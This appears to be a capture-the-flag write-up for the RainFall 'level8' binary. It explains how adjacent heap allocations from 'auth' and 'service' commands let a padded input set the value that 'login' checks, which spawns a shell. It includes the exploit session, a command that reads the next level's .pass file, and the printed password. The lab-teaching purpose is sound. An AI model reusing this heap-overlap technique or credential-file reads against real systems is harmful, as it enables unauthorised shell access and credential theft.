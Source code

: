 this is fairly easy, when you execute the binary it enters an infinite loop that prints the address stored in 2 global variables: `auth` and `service`.

there are 4 inputs that triggers execution of some code: 
- "auth ": allocates 4 bytes with `malloc` and storing the return in `auth` global variable. puts value `0` at the start. skips 5 characters ("auth ") from input and copies that input using `strcpy` if the size is lower than 30
- "reset": frees `auth` varialbe and sets it to NULL
- "service": frees `service` variable and then skips 7 characters then copies your input using `strdup`.
- "login": checks if `auth` is not NULL and checks if value at offset `32` from `auth` is not 0. if both conditions are met it launches a shell. else it prints a string using fwrite.

when you first execute the program you see that both values of `auth` and `service` are NULL:

```bash
level8@RainFall:~$ ./level8 
(nil), (nil)
```

since there is a check that does not let us write more than 30 chars in `auth` variable we need another solution.

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth orakib
0x804a008, (nil) 
service
0x804a008, 0x804a018 
```
as you can see the address of `service` is 16 bytes away from `auth` so we can use this to write  to the value at offset `32` from `auth`

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth orakib
0x804a008, (nil) 
serviceAAAAAAAAAAAAAAAA
0x804a008, 0x804a018 
login
$ cat /home/user/level9/.pass 
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$ 
```

and there you go.